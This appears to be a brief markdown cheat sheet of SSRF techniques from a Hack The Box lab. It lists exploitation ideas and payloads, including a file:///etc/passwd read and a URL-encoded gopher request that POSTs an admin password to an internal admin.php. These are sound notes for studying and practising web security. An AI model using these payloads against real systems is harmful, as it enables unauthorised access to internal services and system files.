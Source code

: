 # Server-side Request Forgery
- **Exploitation**
    - Accessing restricted endpoints
    - Internal portscan by accessing ports on localhost
    - Local File Inclusion (LFI)
    - The gopher Protocol using [Gopherus](https://github.com/tarunkant/Gopherus)

|Protocols|	
|---------|
|http://127.0.0.1/|
|file:///etc/passwd|
|gopher://dateserver.htb:80/_POST%20/admin.php%20HTTP%2F1.1%0D%0AHost:%20dateserver.htb%0D%0AContent-Length:%2013%0D%0AContent-Type:%20application/x-www-form-urlencoded%0D%0A%0D%0Aadminpw%3Dadmin|

## Resources
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Request%20Forgery)